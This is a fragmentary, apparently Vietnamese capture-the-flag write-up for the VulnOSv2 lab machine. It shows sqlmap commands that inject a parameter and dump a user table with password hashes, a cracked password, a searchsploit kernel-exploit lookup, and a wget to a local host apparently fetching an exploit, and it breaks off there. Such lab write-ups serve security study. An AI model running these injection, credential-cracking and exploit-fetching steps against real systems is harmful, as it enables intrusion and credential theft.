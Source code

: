 [*] jabcd0cs

[*] mysql

[*] performance_schema

[*] phpmyadmin

dump db:

sqlmap -u "" -p add_value -D jabcd0cs --dump

có thể sử dụng các option:

sqlmap -u "" -p add_value –threads=4 –columns -T odm_user -D jabcd0cs

sqlmap -u “” -p add_value –threads=4 –dump -T odm_user -D jabcd0cs

sqlmap -u “” –threads=4 -D jabcd0cs -T odm_user -C id,username,password –dump

Database: jabcd0cs

Table: odm_user

[2 entries]

+----+--------------------+-------------+----------------------------------+----------+-----------+------------+------------+---------------+

| id | Email              | phone       | password                         | username | last_name | department | first_name | pw_reset_code |

+----+--------------------+-------------+----------------------------------+----------+-----------+------------+------------+---------------+

| 1  | webmin@example.com | 5555551212  | b78aae356709f8c31118ea613980954b | webmin   | min       | 2          | web        | <blank>       |

| 2  | guest@example.com  | 555 5555555 | 084e0343a0486ff05530df6c705c8bb4 | guest    | guest     | 2          | guest      | NULL          |

+----+--------------------+-------------+----------------------------------+----------+-----------+------------+------------+---------------+

dùng hash-identifider để xác định loại encrypt

decrypt password:

webmin1980

(hash = b78aae356709f8c31118ea613980954b)

$ uname -a

Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux

$ searchsploit ubuntu 3.13.0 | cut -b 1-150

$ wget

--2022-08-04 08:27:16--

Connecting to 192.168.1.6:80... connected.
